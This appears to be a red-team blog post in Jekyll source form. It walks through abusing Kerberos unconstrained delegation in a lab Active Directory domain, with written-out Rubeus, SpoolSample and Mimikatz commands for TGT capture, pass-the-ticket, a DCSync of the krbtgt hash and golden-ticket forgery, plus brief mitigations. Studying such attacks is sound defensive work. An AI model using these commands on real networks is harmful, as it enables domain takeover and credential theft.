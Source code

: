 ```yaml
---
layout: post
title: "DCSync attack with Kerberos unconstrained delegation."
description: "This post demonstrates how to capture the domain controller’s Ticket-Granting-Ticket (TGT) by coerce a domain controller to authenticate to a computer configured with unconstrained delegation."
tags: [read_team, active_directory]
---
```


### Introduction.

In the `Active Directory` environment delegation allows an account to impersonate another account to access resources within the network.

There are three known types of delegations allowed with Kerberos:

- Unconstrained delegations.
- Constrained delegations.
- Resource-based constrained delegations.

Unconstrained delegation allows a user or computer with the option "Trust This user/computer for delegation to any service" enabled to impersonate any user authenticated to it and request access to any service.

Today we will be trying to abuse Unconstrained delegation to perform a privilege escalation and become a domain admin.

The following image represents a computer in the Active Directory which is configured for unconstrained delegation:

{% include image.html path="screenshots/krbdelg/1.png" path-detail="screenshots/krbdelg/1.png" alt="Sample image" %}

<br>
<hr>
<br>

### Attack Requirements

- A domain computer with the delegation option "Trust This computer for delegation to any service" enabled.
- Local admin privileges on the delegated computer to dump the TGT tickets. If you compromised the server as a regular user, you would need to escalate to abuse this delegation feature.

<br>
<hr>
<br>

### Tools Used

- [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- [Active Directory Modules](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps)
- [Mimikatz](https://github.com/gentilkiwi/mimikatz)
- [SpoolSample](https://github.com/leechristensen/SpoolSample)
- [Rubeus](https://github.com/GhostPack/Rubeus)

<br>
<hr>
<br>

### Identifying The Target.

We are interested with computer objects with the property `TrustedForDelegation` set to `true`:

We can use PowerView to find computers that are configured for Unconstrained Delegation with a syntax :

```powershell
Get-DomainComputer -Unconstrained -Properties useraccountcontrol,dnshostname | fl
```
<br>
{% include image.html path="screenshots/krbdelg/2.png" path-detail="screenshots/krbdelg/2.png" alt="Sample image" %}

<br>
Also using ADModule with the following syntax we can see the same results:

```powershell
 Get-ADComputer -Filter {TrustedForDelegation -eq $True}
```
<br>
{% include image.html path="screenshots/krbdelg/3.png" path-detail="screenshots/krbdelg/3.png" alt="Sample image" %}


As we can see we have two computers in the `STRAWHATS.local` domain with unconstrained delegation:

- The computer is named `DC01.strawhats.local`, which is a domain controller, Domain controllers have unconstrained delegation enabled by default.
- The computer named `BLACKBEARD.strawhats.local` computer which is our target, we are good to attack.

<br>
<hr>
<br>

### Exploitation.

In order to exploit unconstrained delegation we need to compromise the system with the delegation enabled, in this post we’ll assume that we already did it.

The idea is to coerce a privileged user to connect to the computer with the delegation enabled. To achieve this we’re going to use the SpoolSample bug to force a domain controller account to connect to us.

First let us set up Rubeus on the computer we compromised to listen for incoming authenticated connections in order to monitor for incoming connections with Rubeus using the following command:

```powershell
Rubeus.exe monitor /interval:5 /filteruser:DC01
```

<br>
{% include image.html path="screenshots/krbdelg/4.png" path-detail="screenshots/krbdelg/4.png" alt="Sample image" %}

Next, using SpoolSample tools, we trigger the printer bug on a domain controller, We are triggering the bug on host `DC01.strawhats.local` and coercing it to authenticate against the host that we control where we are running Rubeus, `BLACKBEARD.strawhats.local`.

```powershell
SpoolSample.exe DC01.strawhats.local BLACKBEARD.strawhats.local
```

where:

- `DC01.strawhats.local` is the domain controller we want to compromise
- `BLACKBEARD.strawhats`.local is the machine with delegation enabled that we control.

{% include image.html path="screenshots/krbdelg/5.png" path-detail="screenshots/krbdelg/5.png" alt="Sample image" %}

Suddenly, we see the authentication come from DC01 along with its ticket granting ticket (TGT) captured by Rubeus.

{% include image.html path="screenshots/krbdelg/6.png" path-detail="screenshots/krbdelg/6.png" alt="Sample image" %}

From a powershell console we can convert the base64 ticket and write the contents to a file with the .kirbi extension using the following command.

```powershell
[IO.File]::WriteAllBytes("C:\tools\DC.kirbi", [Convert]::FromBase64String("Base64 Ticket String"))
```
<br>
{% include image.html path="screenshots/krbdelg/7.png" path-detail="screenshots/krbdelg/7.png" alt="Sample image" %}

Before we proceed with pass-the-ticket attack and become a domain admin, let's try PSRemoting to the DC01 from BLACKBEARD and check currently available kerberos tickets in a current logon session, just to make sure we currently do not have domain admin rights:

{% include image.html path="screenshots/krbdelg/9.png" path-detail="screenshots/krbdelg/9.png" alt="Sample image" %}

Above picture shows that there are no tickets and PSSession could not be established.

Using Mimikatz we can pass-the-ticket and the current user account will get high privilege rights on the domain controller.

```powershell
mimikatz.exe "kerberos::ptt DC.kirbi"
```

<br>
{% include image.html path="screenshots/krbdelg/8.png" path-detail="screenshots/krbdelg/8.png" alt="Sample image" %}

Then we `DCSync` to dump the `NTLM` hash of the `krbtgt` account.

```powershell
lsadump::dcsync /user:STRAWHATS\krbtgt`
```
<br>
{% include image.html path="screenshots/krbdelg/10.png" path-detail="screenshots/krbdelg/10.png" alt="Sample image" %}

Now let’s forge a golden ticket with Mimikatz for the user STRAWHATS\Administrator:

```powershell
kerberos::golden /user:Administrator /domain:strawhats.local /sid:S-1-5-21-3112608399-2123514497-4142719192-502 /krbtgt:3db0f96a64abc0bc2e4dd779d191d74a /ptt
```
<br>
{% include image.html path="screenshots/krbdelg/11.png" path-detail="screenshots/krbdelg/11.png" alt="Sample image" %}

Now We can try to PSRemote into the domain controller as the Administrator user :

<br>
{% include image.html path="screenshots/krbdelg/12.png" path-detail="screenshots/krbdelg/12.png" alt="Sample image" %}

As we can see from the above screenshot, the BLACKBEARD computer now contains a krbtgt for STRAWHATS\Administrator, which enables to establish a PSSession to DC01 with an interactive shell with Domain admin privileges.

<br>
<hr>
<br>

### Mitigation.

- Disable kerberos delegation where possible.
- Be cautious of whom you give privilege "Trust This user/computer for delegation to any service".

<br>
<hr>
<br>

##### References.

- https://www.slideshare.net/harmj0y/the-unintended-risks-of-trusting-active-directory
- https://adsecurity.org/?p=1667
- https://blog.xpnsec.com/kerberos-attacks-part-1/
- https://www.cyberark.com/resources/threat-research-blog/weakness-within-kerberos-delegation
